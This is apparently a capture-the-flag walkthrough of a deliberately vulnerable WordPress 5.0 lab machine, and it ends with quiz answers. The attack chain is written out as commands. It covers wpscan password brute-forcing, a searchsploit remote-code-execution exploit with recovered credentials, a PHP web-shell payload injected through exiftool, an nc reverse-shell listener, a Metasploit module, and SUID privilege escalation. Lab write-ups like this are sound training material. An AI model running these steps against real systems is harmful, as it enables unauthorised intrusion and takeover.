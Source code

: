 # Blog
Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

**In order to get the blog to work with AWS, you'll need to add 10.10.5.115 blog.thm to your /etc/hosts file.**

- First, find the service running on the target first
- Command : `nmap -sV -sC 10.10.5.115`

![Pasted image 20251001202402.png](thm_pics/Pasted%20image%2020251001202402.png)

- So its a wordpress web, running Apache httpd 2.4.29
- lets access robots.txt

![Pasted image 20251001202706.png](thm_pics/Pasted%20image%2020251001202706.png)

- wp-admin is Disallowed, which is a dashboard for admin and **it requires valid credentials**
- I tried accessing /wp-admin/admin-ajax.php

![Pasted image 20251001203017.png](thm_pics/Pasted%20image%2020251001203017.png)

- a zero
- Then i tried using gobuster to find any intersting directories
- Command : `gobuster dir -u http://10.10.5.115 -w /usr/share/wordlists/dirb/common.txt`

![Pasted image 20251001203251.png](thm_pics/Pasted%20image%2020251001203251.png)

- a zero again, lets try accessing it, but nothing interesting appears
- Lets try `wpscan`
- Command : `wpscan --url http://10.10.5.115`

![Pasted image 20251001204715.png](thm_pics/Pasted%20image%2020251001204715.png)

- Lets try enumerating usernames :  `wpscan --url http://10.10.5.115 -e u`

![Pasted image 20251001205416.png](thm_pics/Pasted%20image%2020251001205416.png)

- there are 2 users
- Try brute forcing with username bjoel : `wpscan --url http://10.10.5.115 --password-attack xmlrpc -U "bjoel" -P /usr/share/wordlists/rockyou.txt`
- Try brute forcing with username kwheel : `wpscan --url http://10.10.5.115 --password-attack xmlrpc -U "kwheel" -P /usr/share/wordlists/rockyou.txt`

![Pasted image 20251001214109.png](thm_pics/Pasted%20image%2020251001214109.png)

- since we found the password, we can then use the exploit file i got from searchsploit
- The Wordpress version is 5.0.0, i used searchsploit to find and found **"Image Remote Code Execution"**
- set lhost, lport to our attacking ip and 4141

![Pasted image 20251001214204.png](thm_pics/Pasted%20image%2020251001214204.png)

- Here is the usage : `python3 49512.py http://10.10.5.115:80/ kwheel cutiepie1 wp_theme`

![Pasted image 20251001215346.png](thm_pics/Pasted%20image%2020251001215346.png)

- we have to generate gd.jpg by ourselves and inject the php payload via exiftool
- `touch gd .jpg`
- `convert -size 1x1 xc:white gd.jpg`
- `exiftool gd.jpg -CopyrightNotice="<?=\`\$_GET[0]\`?>"`
- Set up listener at port 4141
- Command : `nc -lvnp 4141`

![Pasted image 20251001220815.png](thm_pics/Pasted%20image%2020251001220815.png)

- now, go to that dir 

![Pasted image 20251001221044.png](thm_pics/Pasted%20image%2020251001221044.png)

- i cannot find a file to execute
- so, i tried using a **msfconsole module** instead, it has a module called "`http/wp_crop_rce`" that i found from searching "wordpress 5.0"
- meterpreter session opens

![Pasted image 20251001225152.png](thm_pics/Pasted%20image%2020251001225152.png)

- i found user.txt but maybe this is not it, it tells me to try harder lol
- now, lets try to elevate our privs and find files with SUID bits set by using `find / -type f -perm -04000 -ls 2>/dev/null`

![Pasted image 20251001230515.png](thm_pics/Pasted%20image%2020251001230515.png)

- checker seems like a custom name
-  Trace **what it does when run** : `ltrace /usr/sbin/checker`

![Pasted image 20251001231959.png](thm_pics/Pasted%20image%2020251001231959.png)

- Experiment : run checker with env set
- Try making the env present : `env admin=1 /usr/sbin/checker`

![Pasted image 20251001232715.png](thm_pics/Pasted%20image%2020251001232715.png)

- got the root! 
- Now, find both root.txt and user.txt
- root.txt is in **/root/root.txt**
- user.txt is in **/home/media/usb/user.txt**

What CMS was Billy using?
Wordpress

What version of the above CMS was being used?
Wordpress 5.0